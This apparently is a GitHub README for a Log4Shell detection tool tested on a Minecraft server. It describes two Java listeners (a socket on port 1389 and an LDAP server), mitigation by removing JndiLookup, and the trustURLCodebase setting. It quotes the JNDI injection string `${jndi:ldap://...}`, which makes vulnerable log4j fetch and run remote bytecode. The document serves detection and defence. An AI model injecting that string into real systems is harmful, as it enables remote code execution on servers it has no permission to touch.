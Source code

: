 # Log4Shell Zero-Day Exploit

if attacker manage to log this string `${jndi:ldap://someaddresshere/param1=value1}`
to log4j it somehow loads the class/java bytecode sent by Attacker Controlled LDAP Server. The bytecode could be used to
execute any malicious code or do some little trolling.

## Detection

### Patched

- Mitigated by deleting `org.apache.logging.log4j.core.lookup.JndiLookup` somehow didn't crash
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919169712435388466/unknown.png)

### Unpatched

- Note: 1.16.5 Minecraft Server
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919170755843989534/unknown.png)
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919172251771895878/unknown.png)

### [MainDetector.java](standalone-detector/src/main/java/itzbenz/MainDetector.java)

Use simple socket to listen on port 1389 then close the socket once its connected no external dependency
- Note: not always the case, sometimes it doesn't bother to load class url location given by LDAP Server
- Vulnerable:\
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919166884425900082/unknown.png)

- Console:\
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919166938654072852/unknown.png)

going to throw error if its is vulnerable

### [MainAlerter.java](standalone-detector/src/main/java/itzbenz/MainAlerter.java)

Use `com.unboundid:unboundid-ldapsdk` library to host LDAP server

- Note: not always the case if using `javaNamingReference`
- Vulnerable:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919168285709312000/unknown.png)
- LADP Server:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919171844836311050/unknown.png)

### DNS Log

Both sender and receiver are logged which mean they are vulnerable

- Note: not always the case
- Vulnerable:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919174049861619752/unknown.png)

## Conclusion

- if java do LDAP lookup doesn't mean it is always vulnerable, but if is load the classpath provided then it is ?
  - vulnerable:
    ![](https://cdn.discordapp.com/attachments/919142724114972744/919448027058540554/unknown.png)
  - not vulnerable because java don't fetch bytecode ??
    ![](https://cdn.discordapp.com/attachments/919142724114972744/919448406924083210/unknown.png)

- to test if its actually vulnerable, try to use harmless payloads if its running then its vulnerable.

- if `com.sun.jndi.ldap.object.trustURLCodebase` property is set to `true` then you are vulnerable like really
  ![](https://cdn.discordapp.com/attachments/918290369639227434/919240541810610206/unknown.png)

# Disclaimer

This project can only be used for educational purposes. Using this software against target systems without prior
permission is illegal, and any damages from misuse of this software will not be the responsibility of the author.
